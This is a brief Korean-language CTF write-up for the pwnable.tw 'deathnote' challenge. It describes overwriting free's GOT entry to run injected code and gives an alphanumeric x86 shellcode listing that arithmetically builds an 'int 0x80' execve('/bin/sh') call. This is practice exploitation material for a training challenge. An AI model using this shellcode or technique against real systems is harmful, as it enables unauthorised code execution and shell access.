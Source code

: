 # pwnable.tw_deathnote
#alpha_numeric shellcode   

free의 got 값을 바꾸어 free가 실행될 때, 쉘코드가 실행되게 한다.  
이때, 인자로 /bin/sh의 문자열을 넣어주어 /bin/sh는 해결해준다  
이제 80바이트로 쉘코드를 만들어주어야 한다.  

eax: 0xb   
ebx: /bin/sh의 주소가 들어간다  
edx와 ecx에는 널바이트  
int 0x80 호출  

가장 큰 문제는 int 0x80이다. => 직접 만들어주기는 힘들기 때문에 연산과정을 거쳐 만들어준다.  
0x80cd=32973=9\*99\*37+6  

push eax  
pop ecx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
imul edx, [ecx+0x78], 99  
xor [ecx+0x78],ebx  
xor [ecx+0x78],edx  
imul ebx, [ecx+0x78], 37  
xor [ecx+0x78],edx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
push eax  
pop ebx  
imul edx,[eax+0x70],32  
imul ecx,[eax+0x70],32  
imul eax,[eax+0x70],32  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax   

jmp to int 0x80
